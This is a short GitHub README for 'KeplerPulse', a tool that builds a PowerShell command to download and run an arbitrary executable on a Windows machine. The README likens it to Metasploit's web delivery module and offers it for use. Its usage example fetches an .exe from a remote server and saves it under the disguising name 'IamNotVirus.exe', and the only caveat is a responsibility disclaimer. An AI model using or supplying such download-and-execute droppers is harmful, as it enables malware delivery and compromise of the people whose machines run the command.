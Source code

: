 # keplerpulse
KeplerPulse is a tool that generates a Powershell command that once executed on a Windows Machine, Downloads and executes your desired Executable on it. 

That's it. 

This was inspired by metasploit's web delivery module, But KeplerPulse isn't popping shells or hosting directly. Basically you can create such command without this tool.


### USAGE 
```bash
git clone https://github.com/quantumcore/keplerpulse
cd keplerpulse
sudo ./install.sh
keplerpulse --p https://myfileserver.com/hi.exe --t C:/Users/%USERNAME%/IamNotVirus.exe 
```

**Whatever you may do with keplerpulse is your own responsiblity.**
